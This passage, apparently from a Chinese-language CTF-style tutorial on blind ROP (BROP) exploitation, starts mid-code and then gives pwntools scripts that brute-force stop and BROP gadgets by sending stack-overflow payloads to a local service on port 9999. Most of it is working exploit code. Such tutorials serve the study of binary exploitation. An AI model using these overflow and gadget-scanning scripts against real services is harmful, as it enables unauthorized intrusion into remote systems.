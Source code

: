 ```python
				return addr
		except Exception:
			addr+=1
			sh.close()
stop_gadgets = getStopGadgets(length)
```

PS：64位程序的加载地址从0x400000开始

这里得到的地址就是start（本地未跑成功，原因未知）

# 寻找brop_gadgets

```python
from pwn import *
def get_brop_gadget(length, stop_gadget, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(stop_gadget) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print(content)
        # stop gadget returns memory
        #if not content.startswith('WelCome'):
        #    return False
        return True
    except Exception:
        sh.close()
        return False


def check_brop_gadget(length, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


##length = getbufferflow_length()
length = 72
##get_stop_addr(length)
stop_gadget = 0x4005c0
addr = 0x400740

#######get_brop_gadgets_addr#######
while 1:
    print(hex(addr))
    if get_brop_gadget(length, stop_gadget, addr):
        print('possible brop gadget: 0x%x' % addr)
        if check_brop_gadget(length, addr):
            print('success brop gadget: 0x%x' % addr)
            break
    addr += 1
```
